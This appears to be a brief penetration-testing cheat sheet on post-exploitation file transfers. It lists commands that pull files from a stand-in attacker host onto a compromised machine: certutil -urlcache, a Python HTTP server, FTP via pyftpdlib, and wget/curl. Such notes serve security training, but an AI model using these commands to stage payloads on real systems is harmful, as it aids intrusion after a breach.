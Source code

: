 ```yaml
---
description: You landed yourself on a box, now what?
---
```


# Post Exploitation

## File Transfers Review

### Certutil

<mark style="color:yellow;">`certutil.exe -urlcache -f http://kali_ip/file.txt file.txt`</mark>

### HTTP Server

<mark style="color:yellow;">`python3 -m http.server <port>`</mark>

### Browser

* Navigate directly to the file

### FTP

Kali: <mark style="color:yellow;">`python -m pyftpdlib 21`</mark>

Windows or Linux: <mark style="color:yellow;">`ftp kali_ip`</mark>

### Additional Linux Exclusives

* Upon hosting an HTTP server, an attacker could utilize <mark style="color:yellow;">`wget`</mark> and <mark style="color:yellow;">`curl`</mark> to remotely grab a file
